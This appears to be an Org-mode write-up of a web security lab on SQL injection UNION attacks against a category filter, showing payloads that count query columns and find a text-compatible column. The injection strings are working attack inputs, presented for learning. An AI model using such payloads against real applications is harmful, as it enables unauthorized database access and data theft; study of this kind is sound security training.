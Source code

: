 #+title: SQL injection UNION attack, finding a column containing text

* TABLE OF CONTENTS :toc:
- [[#about][About]]
  - [[#end-goal][End Goal]]
- [[#steps][Steps]]
  - [[#step-1][Step 1]]
  - [[#step-2][Step 2]]

* About
Sql injection on ~category~ filter

** End Goal
Identify a column that is compatible with ~string~ data

* Steps
** Step 1
+ Determine first how many column are there

#+begin_src sql
'UNION SELECT NULL --
#+end_src

+ If gives error
#+begin_src sql
'UNION SELECT NULL, NULL --
#+end_src
and so on

#+begin_src sql
'UNION SELECT NULL, NULL, NULL --
#+end_src
gives 200 response

** Step 2
Now find out which column support string value
#+begin_src sql
'UNION SELECT 'abc', NULL, NULL --
#+end_src
: gives error
#+begin_src sql
'UNION SELECT NULL, 'abc', NULL --
#+end_src
: success

Now find out similar like this line Make the database retrieve the string: 'FJFnqK'

Now replace that string value with abc
#+begin_src sql
'UNION SELECT NULL, 'FJFnqK', NULL --
#+end_src
